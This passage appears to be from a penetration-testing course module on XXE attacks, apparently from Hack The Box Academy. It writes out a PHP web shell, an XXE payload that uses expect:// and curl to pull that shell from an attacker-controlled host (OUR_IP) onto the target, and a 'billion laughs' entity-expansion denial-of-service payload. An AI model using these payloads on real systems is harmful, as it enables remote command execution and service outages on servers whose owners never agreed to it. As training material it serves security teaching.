 The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:

```shell-session
smoothment@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
smoothment@htb[/htb]$ sudo python3 -m http.server 80
```

Now, we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server:


```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

**Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

Once we send the request, we should receive a request on our machine for the `shell.php` file, after which we can interact with the web shell on the remote server for code execution.

**Note:** The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.

## Other XXE Attacks

Another common attack often carried out through XXE vulnerabilities is SSRF exploitation, which is used to enumerate locally open ports and access their pages, among other restricted web pages, through the XXE vulnerability. The [Server-Side Attacks](https://academy.hackthebox.com/course/preview/server-side-attacks) module thoroughly covers SSRF, and the same techniques can be carried with XXE attacks.

Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:


```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
```